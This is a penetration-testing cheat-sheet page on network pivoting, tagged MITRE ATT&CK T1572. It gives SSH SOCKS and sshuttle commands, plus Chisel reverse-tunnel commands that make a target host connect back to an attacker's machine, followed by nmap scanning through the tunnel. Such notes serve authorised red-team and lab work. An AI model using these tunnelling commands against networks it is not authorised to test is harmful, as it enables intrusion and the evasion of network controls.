 ```yaml
---
description: MITRE ATT&CK, Command and Control, Technique T1572
---
```


# Pivoting

### Pivoting with SSH

```bash
# Pivoting with an SSH SOCKS proxy
ssh -D $port -q -C -N parzival@$ip

# Pivoting with SSHuttle 
## https://github.com/sshuttle/sshuttle
sshuttle -vr parzival@$ip $targetSubnet/24
```

{% embed url="https://t.co/7owIpuQiUy" %}

### Setting up a SOCKS Proxy with Chisel

1\. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)

> Note, you will need a binary placed on your attacking system and one to be uploaded to the target system.

2\. On the attacking system:

```bash
./chisel server --socks5 --reverse -p 8000
```

3\. On the target system:&#x20;

```bash
.\chisel.exe client $attackerip:8000 R:socks
```

4\. Observe on the attacking system that the SOCKS5 connection has been successfully established.

#### Forwarding One Port with Chisel

1\. On the attacking system:

```bash
./chisel server 9000 -reverse
```

2\. On the target system:&#x20;

```bash
.\chisel client $attackerip:9000 R:$localport:127.0.0.1:$remoteport
```

#### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command:&#x20;

```bash
ss -lnpt | grep $localport
```

#### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running&#x20;

```bash
nmap -sC -sV -p3306 -n localhost
```

### Nmap Scanning through Proxychains

When performing scans on the network through proxychains it is important to use the `-sT` flag. The following command demonstrates an Nmap command to use:

```bash
nmap -sT -Pn -n $port
```

{% hint style="warning" %}
You do not need this if you're utilizing SOCKS5 as it supports both ICMP and DNS.
{% endhint %}

### References

#### SSH

{% embed url="https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d" %}

{% embed url="https://anubissec.github.io/How-To-Pivot-Into-Target-Network-With-SSH/" %}

#### Chisel

{% embed url="https://ap3x.github.io/posts/pivoting-with-chisel" %}

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

